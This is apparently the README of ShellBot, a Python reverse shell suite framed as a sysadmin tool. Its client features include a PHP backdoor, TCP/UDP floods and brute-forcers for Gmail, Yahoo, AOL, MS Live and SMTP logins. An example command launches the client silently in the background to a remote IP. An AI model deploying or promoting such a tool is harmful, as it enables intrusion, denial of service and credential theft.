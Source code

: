 # ShellBot

[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot.svg?type=shield)](https://app.fossa.com/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot?ref=badge_shield)

##### An advanced reverse shell written in Python3.

---

ShellBot is a cross-platform Remote Shell Suite where the Server can be managed
by 1 Controller at a time.

A server can accept several clients at once, and relay a chosen client's shell
to the controller.

This makes it easy for an SysAdmin to manage several computers with minimal
setup in an internal network.

The ShellBot suite is designed in such a way that it will not stop till a
connection is achieved. All errors are handled internally and in case of a
crash, the program automatically restarts.

---

## Features:

### Server:

1. Can handle multiple connections all at once.
1. The Controller’s connection requires a plain text password, it’s not the best
   security, but at-least it is better than nothing. Will be improved on in
   future revisions.
1. Kicks the Controller after 5 mins. (As the Server only accepts 1 controller
   at a time). _TODO: Make it 5 minutes after inactivity._

### Client:

1. Infected PHP Backdooring Function. *(Linux Only)*
1. TCP Flood.
1. UDP Flood.
1. Gmail Bruteforcer. (Workaround Gmail's SMTP login)
1. MS Live Bruteforcer.
1. Yahoo Bruteforcer.
1. AOL Bruteforce.
1. Custome SMTP Bruteforcer. If found, the password will be saved as
   "password.txt" on the client.
1. OTA Updating.
1. Hardened Shell: Handles No Output, Wrong, Interactive and Infinite commands
   will result in losing the shell.
1. Can handle multiple commands separated by semi-colon (;).
1. Never closes and is always trying to connect to the Server.
1. Can handle almost any non-interactive command properly.
1. Uses very less resources.
1. Can be packaged into executables with tools like pyInstaller.

### Controller:

1. Handles `KeyboardInterrupts`, empty commands, etc. perfectly.
1. Easy user interface.

**Note:** When trying to start the client through SSH, Terminal or any other
interactive shell, it is advised to start the client in another process. This
can be done in Linux with `nohup`.

## Example:

```sh
nohup python3 client.py 15.48.158.15 1567 > /dev/null &

nohup python3 client.py 15.48.158.15 1567 > /dev/null 2>&1 &
```

## License

[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot.svg?type=large)](https://app.fossa.com/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot?ref=badge_large)
